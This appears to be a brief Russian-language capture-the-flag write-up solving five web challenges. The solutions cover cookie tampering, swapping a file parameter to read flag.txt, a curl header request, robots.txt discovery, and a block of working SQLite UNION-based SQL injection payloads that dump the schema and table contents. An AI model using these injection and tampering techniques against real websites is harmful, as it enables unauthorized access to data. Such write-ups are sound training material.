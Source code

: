 ![image](https://github.com/user-attachments/assets/995f0e4a-dcfa-4e0e-9429-b88bc4acd2d7)

1. Cookie Lover

Декодим куки, меняем false на true и получаем флаг

2. Смешной мем

Через код страницы открываем мем, меняем параметр file на flag.txt

3. Заголовки

Через curl отправляем требуемый запрос с заголовком, подсказка в html комментарии

4. Трансформеры

В robots.txt находим html страничку с флагом

5. Тайная сила

SQL инъекция, решить можно было, например так

```
%' order by 6; --


%' order by 5; --


%' AND 1=0 UNION SELECT name, sql, 3, 4, 5 FROM sqlite_master; --


// Неправильный флаг
%' and 1=0 UNION SELECT flag, 2, 3, 4, 5 FROM the_flag_is_in_here; --


%' and 1=0 UNION SELECT name, secret_power, 3, 4, 5 FROM secret_powers where name='Tony Stark'; --
```
